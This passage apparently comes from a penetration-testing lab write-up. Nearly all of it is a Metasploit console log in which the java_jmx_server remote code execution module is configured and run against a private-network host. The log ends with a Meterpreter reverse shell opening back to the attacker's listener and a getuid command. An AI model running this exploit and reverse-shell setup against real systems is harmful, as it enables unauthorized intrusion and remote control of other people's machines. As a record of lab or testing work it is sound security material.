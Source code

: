 After poking around at some other services on the host, they appeared to be installing software from 2013, so it made sense to try the `exploit/multi/misc/java_jmx_server` remote code execution exploit:

```
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        172.28.128.4     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         1617             yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.254.145  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > exploit

[*] Started reverse TCP handler on 192.168.254.145:4444
[*] 172.28.128.4:1617 - Using URL: http://0.0.0.0:8080/RMfarTo
[*] 172.28.128.4:1617 - Local IP: http://192.168.254.145:8080/RMfarTo
[*] 172.28.128.4:1617 - Sending RMI Header...
[*] 172.28.128.4:1617 - Discovering the JMXRMI endpoint...
[+] 172.28.128.4:1617 - JMXRMI endpoint on 172.28.128.4:49198
[*] 172.28.128.4:1617 - Proceeding with handshake...
[+] 172.28.128.4:1617 - Handshake with JMX MBean server on 172.28.128.4:49198
[*] 172.28.128.4:1617 - Loading payload...
[*] 172.28.128.4:1617 - Replied to request for mlet
[*] 172.28.128.4:1617 - Replied to request for payload JAR
[*] 172.28.128.4:1617 - Executing payload...
[*] Sending stage (53944 bytes) to 192.168.254.145
[*] Meterpreter session 1 opened (192.168.254.145:4444 -> 192.168.254.145:34070) at 2020-09-01 14:06:37 -0400

meterpreter > getuid
Server username: LOCAL SERVICE
```
